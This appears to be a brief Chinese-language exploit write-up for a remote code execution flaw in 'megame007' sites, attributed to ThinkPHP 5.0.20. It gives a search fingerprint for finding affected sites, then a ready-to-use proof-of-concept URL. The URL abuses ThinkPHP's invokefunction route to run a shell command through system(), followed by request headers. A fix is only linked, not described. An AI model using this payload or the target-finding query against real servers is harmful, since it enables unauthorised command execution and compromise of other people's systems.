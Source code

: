 # megame007远程代码任意执行漏洞
利用此漏洞可以任意执行代码
# GOOGLE
title:megame007

# 漏洞简介
|漏洞名称|上报日期|漏洞发现者|版本|CVE编号|
|--|--|--|--|--|
|thinkphp5框架缺陷导致远程代码执行|2024-7-22|AMEN|5.0.20|[点击(内有修复方案)](https://blog.ymypay.cn/index.php/2024/07/22/thinkphprce/)|
# POC
```
https://your-host/?s=/admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls
```
```
Host: your-host
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: your-UserAgent
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9
```
